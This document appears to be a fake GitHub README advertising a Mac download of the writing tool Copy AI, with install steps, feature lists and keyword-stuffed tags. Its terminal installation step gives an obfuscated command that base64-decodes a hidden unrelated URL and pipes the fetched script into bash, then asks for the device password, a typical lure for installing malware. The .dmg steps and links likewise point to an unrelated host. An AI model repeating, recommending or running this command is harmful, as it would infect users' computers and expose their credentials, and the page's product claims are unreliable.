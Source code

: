 # Copy AI For Mac — Download For Mac OS ✍️

![copyai](https://akwaam.com/wp-content/uploads/2025/04/Copy-AI-App-Essay-Advices.webp)

Copy AI For Mac is an innovative AI-powered writing assistant designed to help Mac users create high-quality content effortlessly. From blog posts to marketing copy, this software streamlines content creation with advanced AI tools. Follow the instructions below to install and start generating professional-grade content on your Mac.


[![Download Now](https://img.shields.io/badge/Download%20Now-Copy%20AI%20For%20Mac-blue?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/copyai)

If the download button above doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install Copy AI For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- ✍️ **AI-Powered Writing**: Generate engaging content for blogs, ads, and social media with advanced AI algorithms.
- 📋 **Template Library**: Access a wide range of customizable templates for various content types.
- 🌐 **Multilingual Support**: Create content in multiple languages to reach global audiences.
- 🤝 **Collaboration Tools**: Work seamlessly with team members in real-time for efficient content creation.
- ⚙️ **macOS Optimization**: Enjoy smooth performance tailored for Apple Silicon and macOS environments.
- 📈 **Tone Customization**: Adjust the tone of your content to match your brand’s voice and style.

## About Copy AI

Copy AI For Mac is a cutting-edge writing assistant that empowers Mac users to create professional content with ease. Leveraging advanced AI, this software helps marketers, bloggers, and businesses generate high-quality text for blogs, advertisements, social media posts, and more. With its intuitive interface and powerful features, Copy AI is a must-have tool for anyone looking to streamline their content creation process on macOS.

The software uses machine learning to produce human-like text, ensuring your content is engaging and polished. Its extensive template library covers a wide range of use cases, from email campaigns to product descriptions, making it versatile for professionals across industries. Copy AI’s seamless integration with macOS ensures fast performance, while its collaboration features allow teams to work together efficiently, boosting productivity.

For those seeking to enhance their content marketing efforts, Copy AI offers multilingual support and tone customization, enabling users to craft content that resonates with diverse audiences. Whether you’re drafting a single post or managing large-scale campaigns, the software’s AI-driven tools simplify the process, saving time and effort. Its compatibility with the latest macOS versions ensures a smooth experience on any Mac device.

By combining user-friendly design with powerful AI capabilities, Copy AI For Mac has become a trusted solution for content creators. Its ability to generate high-quality, brand-aligned content makes it an essential tool for modern professionals. Download Copy AI today and elevate your content creation with this industry-leading software optimized for macOS.

## Advantages of Copy AI

- ✍️ **High-Quality Content**: Produce engaging, professional text with AI-driven precision.
- ⚡ **Fast Generation**: Create content quickly, even for large projects, with optimized performance.
- 🛠️ **Intuitive Interface**: User-friendly design makes content creation accessible to all skill levels.
- 📋 **Versatile Templates**: Access a diverse library of templates for blogs, ads, and more.
- 🌐 **Global Reach**: Generate content in multiple languages for international audiences.
- 🤝 **Team Collaboration**: Real-time collaboration tools streamline team workflows.

## 🖼 Preview

![Copy AI Dashboard](https://www.elegantthemes.com/blog/wp-content/uploads/2023/06/Copy-AI-templates.jpg)  
*The sleek Copy AI dashboard, designed for intuitive content creation.*


## 🔍 Tags

copy ai, ai copy copy artificial intelligence, copys ai, cppy ai, cop y ai, copy ai+, ai copywriting, copywriting ai, copy ai for mac, copy ai mac, copy ai mac download, copy ai free, copy ai download, download copy ai, copy ai for mac, copy ai discount, copy ai for macos, copy ai mac free, copy ai mac free download, copy ai free download
](https://fituganshfgh.github.io/.github/copyai)
